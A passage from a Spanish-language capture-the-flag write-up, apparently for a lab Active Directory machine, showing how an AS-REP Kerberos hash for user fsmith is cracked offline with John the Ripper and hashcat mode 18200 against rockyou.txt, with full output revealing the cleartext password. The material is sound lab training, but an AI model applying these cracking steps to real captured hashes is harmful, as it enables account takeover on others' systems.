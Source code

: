 Vamos a crackearlo, pero esta vez, lo haremos de dos formas.

<br>

<h3 id="JohnTR">Crackeando Hash TGT con JohnTheRipper</h3>

Copia el **hash** del **TGT** y guárdalo en un archivo.

Con **JonhTheRipper**, le indicaremos que utilice el **rockyou.txt** y el **hash** para que lo trate de crackear:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)     
1g 0:00:00:19 DONE (2024-10-16 13:39) 0.05096g/s 537149p/s 537149c/s 537149C/s Thomas30..Thenook1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Tardo un poquito, pero ahí está la contraseña en texto claro.

<br>

<h3 id="Hashcat">Crackeando Hash TGT con Hashcat</h3>

Copia el **hash** del **TGT** y guárdalo en un archivo.

Con **hashcat** le indicaremos que use el **modo 18200** (que es para **hashes krb5asrep**), le indicamos que use el **rockyou.txt** y que ignore cualquier advertencia (`--force`):
```bash
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.6) starting
...
...
$krb5asrep$23$fsmith@EG...a376dd90506fc9fc558a931d2cb28989b1a195321cef2f33025c0b:Thestrokes23
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:5407441...025c0b
Time.Started.....: Wed Oct 16 16:16:45 2024, (17 secs)
Time.Estimated...: Wed Oct 16 16:17:02 2024, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   625.5 kH/s (3.26ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10542080/14344385 (73.49%)
Rejected.........: 0/10542080 (0.00%)
Restore.Point....: 10536960/14344385 (73.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Tiffany95 -> Tekotuku
Hardware.Mon.#1..: Util: 60%

Started: Wed Oct 16 16:16:07 2024
Stopped: Wed Oct 16 16:17:03 2024
```
Listo, tenemos la contraseña en texto claro.
